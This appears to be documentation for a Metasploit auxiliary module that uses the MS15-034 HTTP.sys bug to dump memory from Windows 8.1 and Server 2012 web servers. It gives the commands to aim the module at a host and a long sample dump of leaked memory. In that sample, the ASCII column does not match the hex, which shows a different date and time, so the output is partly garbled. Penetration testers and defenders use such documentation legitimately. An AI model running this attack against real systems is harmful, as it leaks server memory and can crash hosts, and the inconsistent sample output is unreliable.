 ##Description

This module dumps memory contents using a crafted Range header and affects only Windows 8.1, Server 2012, and Server 2012R2. Note that if the target is running in VMware Workstation, this module has a high likelihood of resulting in BSOD; however, VMware ESX and non-virtualized hosts seem stable. Using a larger target file should result in more memory being dumped, and SSL seems to produce more data as well.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/ms15_034_http_sys_memory_dump```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output
```
msf > use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
msf auxiliary(ms15_034_http_sys_memory_dump) > set RHOSTS 10.1.1.125
RHOSTS => 10.1.1.125
msf auxiliary(ms15_034_http_sys_memory_dump) > set RPORT 80
RPORT => 80


msf auxiliary(ms15_034_http_sys_memory_dump) > exploit

[+] Target is vulnerable!
[+] Content length is 10240 bytes
[+] Stand by...
[+] Memory contents:
[*] 4854 5450 2f31 2e31 2032 3030 204f 4b0d    HTTP/1.1 200 OK.
[*] 0a43 6f6e 7465 6e74 2d54 7970 653a 2074    .Content-Type: t
[*] 6578 742f 6874 6d6c 0d0a 4c61 7374 2d4d    ext/html..Last-M
[*] 6f64 6966 6965 643a 204d 6f6e 2c20 3232    odified: Mon, 20
[*] 204a 756e 2032 3031 3520 3134 3a32 313a     Mar 2017 21:27:
[*] 3535 2047 4d54 0d0a 4163 6365 7074 2d52    55 GMT..Accept-R
[*] 616e 6765 733a 2062 7974 6573 0d0a 4554    anges: bytes..ET
[*] 6167 3a20 2261 3563 6663 3863 6166 3661    ag: "a5cfc8caf6a
[*] 6364 3031 3a30 220d 0a53 6572 7665 723a    cd01:0"..Server:
[*] 204d 6963 726f 736f 6674 2d49 4953 2f38     Microsoft-IIS/8
[*] 2e35 0d0a 582d 506f 7765 7265 642d 4279    .5..X-Powered-By
[*] 3a20 4153 502e 4e45 540d 0a00 0000 0000    : ASP.NET.......
[*] 0000 0202 4672 6167 0000 0000 0000 0000    ....Frag........
[*] c028 0000 0000 0000 0000 0000 0000 0000    .(..............
[*] 0200 0a00 4672 6565 0000 0000 0000 0000    ....Free........
[*] d01e f6c5 02f8 ffff 40a2 6502 00e0 ffff    ........@.e.....
[*] 0a00 0d02 4d64 6c20 0000 0000 0000 0000    ....Mdl ........
[*] 1000 6702 00e0 ffff 3800 0c00 0000 0000    ..g.....8.......
[*] 0000 0000 0000 0000 ba9a e501 00e0 ffff    ................
[*] 0090 e501 00e0 ffff 5c00 0000 ba0a 0000    ........\.......
[*] 59a8 1300 0000 0000 0000 0000 0000 0000    Y...............
[*] 0000 0000 0000 0000 0000 0000 0000 e0dc    ................
[*] 0d00 0d02 4d64 6c20 0000 0000 0000 0000    ....Mdl ........
[*] 9079 2602 00e0 ffff 3800 1c00 0000 0000    .y&.....8.......
...
...
...
[*] 6079 0702 00e0 ffff 0000 0000 0000 0000    `y..............
[*] 0e00 1902 5669 4d6d 0000 0000 0000 0000    ....ViMm........
[*] Suppressed 346 uninteresting lines
[*] Memory dump saved to /home/rw/.msf4/loot/20150622073911_default_10.1.1.125_iis.ms15034_145400.bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ms15_034_http_sys_memory_dump) > 
```
